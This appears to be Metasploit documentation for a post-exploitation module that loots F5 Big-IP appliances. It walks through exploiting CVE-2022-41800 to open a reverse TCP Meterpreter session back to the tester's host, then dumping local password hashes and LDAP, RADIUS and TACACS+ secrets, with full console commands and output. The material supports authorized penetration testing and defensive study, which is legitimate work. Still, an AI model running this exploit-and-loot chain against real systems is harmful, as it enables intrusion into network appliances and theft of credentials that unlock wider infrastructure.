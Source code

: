 ## Vulnerable Application

The application is F5 Big-IP, and I don't think the versions matters but I
tested on version 17.0.0.1. It can be downloaded as a VMWare image for free
(you have to create an account) from https://downloads.f5.com. You can register
for a free 30-day trial if you like, but it's not required to test this.

Boot the VM and set an admin password by logging in with the default credentials
(admin / admin). You'll need that password.

## Verification Steps

1. Install the application
2. Start `msfconsole`
3. Do: Get any session somehow (`exploit/linux/http/f5_icontrol_rpmspec_rce_cve_2022_41800` works well on 17.0.0.1 and earlier, or just use `msfvenom` w/ a Linux payload)
4. Do: `use post/linux/gather/f5_loot_mcp`
5. Do `set SESSION <sessionid>`
6. Do: `run`
7. You should get the info

## Options

### GATHER_HASHES

If `true`, read a list of local users and passwords (`userdb_entry` values) from mcp.

Default: true

### GATHER_SERVICE_PASSWORDS

If `true`, read upstream service passwords (active directory, LDAP, etc) from different parts of mcp.

Default: true

### GATHER_DB_VARIABLES

If `true`, read configuration information from mcp (note that this is slow).

Default: false (due to the speed)

## Scenarios

### F5 Big-IP 17.0.0.1 with a root session

First, get a non-root session however you can. I used the rpmspec vuln:

```
msf6 > use exploit/linux/http/f5_icontrol_rpmspec_rce_cve_2022_41800
[*] No payload configured, defaulting to cmd/unix/python/meterpreter/reverse_tcp
msf6 exploit(linux/http/f5_icontrol_rpmspec_rce_cve_2022_41800) > set HttpPassword mybigtestpassword
HttpPassword => iagotestbigip
msf6 exploit(linux/http/f5_icontrol_rpmspec_rce_cve_2022_41800) > set RHOST 10.0.0.162
RHOST => 10.0.0.162
msf6 exploit(linux/http/f5_icontrol_rpmspec_rce_cve_2022_41800) > set LHOST 10.0.0.179
LHOST => 10.0.0.179
msf6 exploit(linux/http/f5_icontrol_rpmspec_rce_cve_2022_41800) > exploit
[*] Started reverse TCP handler on 10.0.0.179:4444 
[*] Sending stage (40168 bytes) to 10.0.0.162
[+] Deleted /var/config/rest/node/tmp/708677fa-5b30-43e6-9ce3-d84046e9f6e9.spec
[+] Deleted /var/config/rest/node/tmp/RPMS/noarch/yE15kZeAwp-1.6.1-7.4.4.noarch.rpm
[*] Meterpreter session 1 opened (10.0.0.179:4444 -> 10.0.0.162:36124) at 2022-11-14 16:12:04 -0800

meterpreter > bg
```

Then just use the module, set the SESSION, and run it:

```
msf6 exploit(linux/http/f5_icontrol_rpmspec_rce_cve_2022_41800) > use post/linux/gather/f5_loot_mcp
msf6 post(linux/gather/f5_loot_mcp) > set SESSION 1
SESSION => 1
msf6 post(linux/gather/f5_loot_mcp) > set VERBOSE true
VERBOSE => true
msf6 post(linux/gather/f5_loot_mcp) > show options

Module options (post/linux/gather/f5_loot_mcp):

   Name                       Current Setting  Required  Description
   ----                       ---------------  --------  -----------
   GATHER_DB_VARIABLES        false            yes       Gather database variables (warning: slow)
   GATHER_HASHES              true             yes       Gather password hashes from mcp
   GATHER_UPSTREAM_PASSWORDS  true             yes       Gather upstream passwords (ie, LDAP, AD, RADIUS, etc) from mcp
   SESSION                    1                yes       The session to run this module on


View the full module info with the info, or info -d command.

msf6 post(linux/gather/f5_loot_mcp) > run

[*] Gathering users and password hashes from mcp
[+] admin / $6$Iyzm/x1c$gvlmWSdmj7M/NBUM9DO41LHmC1qDBxM/IMjlUfqLZatVVXHPUvo9/hFDrP1Qg3qHIC0g.O9/dq4TPgDdE3W1z.
[+] f5hubblelcdadmin / qsVgr34GRROUnQhTSvL2h1Q6NtLE9hpp
[+] rontest / $6$vVUv0eWT$RGvezgWWLpEa5WfKNumg7b04w2cz87r8TAZ0mxiAvYveDmTRu3h3KUwirAhiFOZ6LcttWxO2XS0MNAhkqaSN11
[+] root / $6$hWKQCz3U$QE39QIT8ILbdah.k85LMnvKqjq3IIPge3bfM9UAiaUy.leyzHwpjYqQ7jJxSwN1PiFjKB28ofVi6rvenaxh9l/
[+] msftest10 / $6$SsTj4F5Q$ct0NRCUNGrAkIF7z/XSsUhF5DY1FwDgvGMxh6w09/Zm1jpu0Sj1v8LXRbEtuHlUrtaGMNGcRuU9EZYNjThEar0
[+] msftest11 / $6$5ls1Hodo$EdiV4XcuutsvYm8Aq6dTPUbxvukli4clH3b.tkLgITrrzOiaC5G8s2zVN/wmFiQ7udVAKUojVkxXuxMqzuWRK0
[+] msftest12 / $6$e7zpKgrJ$ifN.zbC/vLC3Y2cmecShUqDKt3JEYSruu0Dc73W9pQ0Vv1llCOjOV5gKL3CdxVK2r7LkCYDrH.zQEuMYDIV8s1
[+] msftest13 / $6$pgYIQtix$H8lIcppGqLH9i5gbKL5QMUpEreAmltXggZBtTgzRMB0iAWDgFsNw157hLg/2Oo9rO0o8HzysnigfFMhXIYoxy1
[+] msftest14 / $6$gIpu09NZ$I4N6fdzsisopw82SbJJLRf4tv2wpQrQlZaWcD2irlPlWHCzS8jJLEF9vxSQw4oGPebHzCvsZQqANAlubWubiq.
[+] msftest15 / $6$JPl9tzxV$/kXFRvw4u3vfZNn4HZ1kraxIz./Xj3OQXWYUnFvxUkB.2BzuZvHJHnaT7RyN4HnfNHdY1pLhvzSm9fvVJX6fs.
[+] rontest321 / $6$T2mT4PeYSuyg/hSr$y/rN9tol5t1fRxTBqFVtxLzRfUBXt16yNahqYTaVVZa3PITfoAKBnuzqvwBT77qNBV4JjgwdhzqmsMk78bo6d0
[+] Users and password hashes stored in /home/ron/.msf4/loot/20221123110850_default_10.0.0.162_f5.passwords_484560.txt
[*] Gathering upstream passwords from mcp
[*] Trying to fetch LDAP / Active Directory configuration
[*] Trying to fetch Radius configuration
[*] Trying to fetch TACACS+ configuration
[*] Trying to fetch SMTP configuration
[*] No SMTP password found
[+] LDAP: admin / myadpassword (server(s): ad.example.org)
[+] Radius secret: secret2 (server: myradiustest2.example.org)
[+] Radius secret: myradiussecret (server: myradiustest.example.org)
[+] TACACS+ secret: mytacacspassword (server(s): mytacacsserver.example.org, mytacacsserver2.example.org)
[+] Passwords stored in /home/ron/.msf4/loot/20221123110852_default_10.0.0.162_f5.service.passw_644261.txt
[*] Post module execution completed
```

